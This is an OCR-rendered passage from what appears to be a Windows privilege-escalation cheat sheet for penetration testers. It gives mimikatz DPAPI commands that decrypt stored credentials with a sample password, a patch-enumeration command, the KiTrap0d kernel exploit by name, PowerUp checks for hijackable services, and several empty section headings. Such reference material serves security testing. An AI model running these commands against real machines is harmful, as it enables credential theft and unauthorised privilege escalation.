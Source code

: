 ```bat
dpapi::​ cred​ /​ in​ :51​ AB168BE4BDB3A603DADE4F8CA81290
/​ sid:S​ -1-5-21-953262931-566350628-63446256-1001 /​ password​ :4​ Cc3ssC0ntr0ller
```

Examine master key file
```bat
dpapi::​ masterkey​ /​ in​ :0792​ c32e​ -48​ a5​ -4​ fe3​ -8​ b43​ - ​ d93d64590580
/​ sid:S​ -1-5-21-953262931-566350628-63446256-1001 /​ password​ :4​ Cc3ssC0ntr0ller
```

Decrypt credential blob
```bat
dpapi::​ cred​ /​ in​ :51​ AB168BE4BDB3A603DADE4F8CA81290
```

### Using Kernel Exploit

Installed updates:
```bat
wmic qfe get Caption,Description,HotFixID,InstalledOn

```
KiTrap0d

### Using logical flaws

### Other

#### Directory Replication Service (DRSR)

#### Netlogon Remote Service (NRPC)

#### BackupKey Remote Service (BKRP)

#### Local Service Authority (Domain Policy) Remote Protocol (LSAD)

#### Privilege Attribute Certificate Data Structure (PAC)

#### Kerberos

##### Kerberos Protocol Extension (KILE)

##### Kerberos Protocol Extension, Service for User and Constrained Delegation Protocol (SFU)

#### Add user using service misconfiguration

## PowerUp

- Perform all checks: `Invoke-AllChecks`
- Services with unquoted paths and a space in their name: `Get-ServiceUnquoted -Verbose`
- Service binary in a location writable to current user (Replace the binary to gain code execution): `Get-ModifiableServiceFile -Verbose`
- Service can be modified by current user: `Get-ModifiableService -Verbose`

## References

> - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
> - http://www.greyhathacker.net/?p=738
> - https://toshellandback.com/2015/11/24/ms-priv-esc
> - https://www.toshellandback.com/2015/08/30/gpp/
